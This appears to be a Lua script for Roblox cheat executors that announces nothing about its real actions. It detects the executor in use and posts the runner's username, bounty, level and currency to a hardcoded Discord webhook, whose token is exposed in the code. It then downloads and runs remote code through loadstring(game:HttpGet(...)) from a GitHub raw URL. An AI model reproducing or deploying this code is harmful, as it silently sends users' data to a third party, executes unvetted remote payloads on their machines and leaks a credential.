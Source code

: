 --- WebHook
local webhookcheck =
   is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
   secure_load and "Sentinel" or
   KRNL_LOADED and "Krnl" or
   SONA_LOADED and "Sona" or
   "Kid with shit exploit"

local url =
   "https://discord.com/api/webhooks/900306070227001365/RmneZgoeLSaaBqRxj88IAw3obM-qgrzSBQu1iKvnHqxwgyHEGggeHhE2iyB_B2i0kg3t"
local data = {
   ["content"] = " message(no embed)- you can take out embed if by deleting the bottom stuff(where it says EMBEDS)",
   ["embeds"] = {
       {
           ["title"] = "Someone Executed Your Script!",
           ["description"] = "Username: " .. game.Players.LocalPlayer.Name.." with "..webhookcheck.."".."\n Bounty = "..game:GetService("Players").LocalPlayer.leaderstats["Bounty/Honor"].Value.."\nLevel = "..game:GetService("Players").LocalPlayer.Data.Level.Value.."\n beli = "..game:GetService("Players").LocalPlayer.Data.Beli.Value,
           ["type"] = "rich",
           ["color"] = tonumber(0x7269da),
           ["image"] = {
               ["url"] = "http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username=" ..
                   tostring(game:GetService("Players").LocalPlayer.Name)
           }
       }
   }
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/KaiJu114/TEST/main/TEST.lua"))()
